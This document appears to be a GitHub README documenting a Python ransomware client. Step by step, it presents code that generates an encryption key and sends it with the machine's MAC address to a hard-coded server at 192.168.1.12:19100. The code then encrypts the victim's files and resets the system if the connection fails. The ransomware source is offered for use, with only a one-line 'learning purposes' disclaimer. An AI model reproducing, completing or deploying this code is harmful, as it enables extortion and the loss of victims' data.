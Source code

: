 # Client Documentation

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm. To use the ransomware, first import the necessary modules, including time, system utilities, encryption tools, and socket communication. Then, define the `Ransomware` class, initializing it with the server's host and port. Connect to the server using the `ConnectServer` method, which attempts to establish a connection and sends system information along with an encryption key. Once connected, you can encrypt files using the `Encrypted` method and decrypt them using the `Decrypted` method. Finally, instantiate the `Ransomware` class and execute the ransomware script, ensuring that the server's host and port are configured correctly.

1. **Import the necessary modules**:
```python
   from time import sleep
   from modules.system import System
   from modules.encdec import Fernet, Encrypt, Decrypt
   from socket import socket, AF_INET, SOCK_STREAM
```
- This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm.

2. **Class Ransomware**:
```python
    def __init__(self, host: str, port: int) -> None:
        self.key = Fernet.generate_key()
        self.host = host
        self.port = port
        self.system: System = System()
        self.server: socket = socket(AF_INET, SOCK_STREAM)
        self.Private = Fernet(self.key)
```
- Generate a random encryption key, initialize `System` object. 
- Create a `socket` for communication and a `Fernet` instance for encryption/decryption.

```python
    def ConnectServer(self, connected = False) -> None:
        retries = 0
        while not connected and retries < 3:
            try:
                self.server.connect((self.host, self.port))
                self.server.sendall(f'{self.system.Mac()}|{self.key.decode("utf-8")}'.encode('utf-8'))
                connected = True
            except:
                retries += 1
                if retries < 3:
                    sleep(10)
                else:
                    System.reset()
            finally:
                self.server.close()
```
 - The `ConnectServer` method attempts to connect to the server via the provided IP address and port. If it cannot connect after 3 attempts, the system will reset.

```python
    def Encrypted(self):
        Encrypt(self.Private)
    
    def Decrypted(self):
        Decrypt(self.Private)
```
 - The `Encrypted` method encrypts data using the generated private key.
 - The `Decrypted` method decrypts data using the same private key.
    
```python
    if __name__ == '__main__':
        bot = Ransomware('192.168.1.12', 19100)
        bot.ConnectServer()
        bot.Encrypted()
```
 - When initializing a `Ransomware` object, you need to provide the IP address (`host`) and port (`port`) of the server you want to connect to.


**Please note**: *This code should only be used for learning purposes. Using it to perform illegal activities (such as cyber attacks) can lead to serious legal consequences. Always comply with legal regulations when using and developing open source code.*
